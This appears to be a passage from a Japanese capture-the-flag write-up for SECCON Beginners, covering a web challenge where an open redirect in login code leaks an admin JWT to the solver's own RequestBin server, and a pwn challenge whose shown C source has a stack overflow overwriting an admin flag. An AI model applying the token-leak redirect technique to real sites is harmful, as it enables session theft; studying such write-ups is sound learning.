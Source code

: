 これを burp suite を使って指定してあげるとフラグが確認できました。

# WEB

## **wooorker（未）**

admin で`/` にログインできればフラグが取れる問題。

ソースコードを見てみると`admin` の他に`guest` がユーザーとして用意されており`guest` についてはパスワードもわかっている。さっそくログインしてみると、URL に JWT が発行される。

noneAttack かなと思いやってみるもうまく行かず、ここで時間切れ

```jsx
const next = params.get("next");
if (next) {
  window.location.href = next.includes("token=")
    ? next
    : `${next}?token=${token}`;
} else {
  window.location.href = `/?token=${token}`;
}
```

`?next=https://test/index` というクエリパラメータを指定すると、ログイン後に`https://test/index`にリダイレクトすることができるらしい。

また、今回はクローラーが存在しています。クローラーは`login?next=/` を送信すると、`https://woorker.quals.beginners.seccon.jp/login?next=/` に admin としてアクセスます。そこで`https://woorker.quals.beginners.seccon.jp/login?next=[自身が管理するサーバー]` とすることで admin の JWT トークンが付与された状態で自身が管理するサーバーにリダイレクトされます。

リダイレクト先のサーバーは RequestBin を使用しました。

あとは burp を利用して、取得した JWT トークンを HTTP ヘッダに設定して`/flag` にアクセスするとフラグが取れました。

# pwn

## **simpleoverflow**

与えられた`src.c` を確認すると、`buf` にスタックオーバーフローの脆弱性があり、10 文字以上の入力値を与えられると`is_admin` が書き換えられてしまいます。

```c
int main() {
  char buf[10] = {0};
  int is_admin = 0;
  printf("name:");
  read(0, buf, 0x10);
  printf("Hello, %s\n", buf);
  if (!is_admin) {
    puts("You are not admin. bye");
  } else {
    system("/bin/cat ./flag.txt");
  }
  return 0;
}
```
